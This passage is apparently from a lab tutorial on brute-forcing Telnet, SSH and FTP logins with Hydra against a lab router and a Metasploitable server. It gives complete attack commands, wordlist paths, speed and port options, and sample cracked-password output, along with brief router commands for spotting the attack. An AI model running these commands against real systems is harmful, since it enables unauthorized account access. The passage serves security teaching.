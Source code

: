 **What happens during the attack:**
1. Hydra reads passwords from the wordlist file
2. For each password, it attempts a Telnet login
3. Each attempt is displayed in verbose mode
4. When successful, the password is displayed in green

**Detecting the attack on the router:**
```cisco
EDG# who
EDG# show users
```
These commands show active connection attempts and can reveal brute force activity.

**Expected output when password is found:**
```
[ATTEMPT] target 192.168.1.1 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[23][telnet] host: 192.168.1.1   login: admin   password: 123456
1 of 1 target successfully completed, 1 valid password found
```

### 2. SSH Password Attack

**Attack command:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -V ssh
```

**Differences from Telnet attack:**
* Uses SSH protocol (port 22) instead of Telnet (port 23)
* SSH provides encrypted communication
* Slightly slower due to encryption overhead
* More commonly found in production environments

**SSH-specific options:**
```bash
# Specify SSH port if non-standard
hydra -l admin -P wordlist.txt -s 2222 192.168.1.1 ssh

# Use multiple threads for faster attack
hydra -l admin -P wordlist.txt -t 4 192.168.1.1 ssh
```

### 3. FTP Password Attack

**Target:** Metasploitable server at 192.168.1.5

**Attack command:**
```bash
hydra -l msfadmin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.5 -V
```

**FTP-specific considerations:**
* FTP typically allows anonymous login attempts
* No encryption (credentials sent in plaintext)
* Easy to detect in network traffic
* Common target for automated attacks
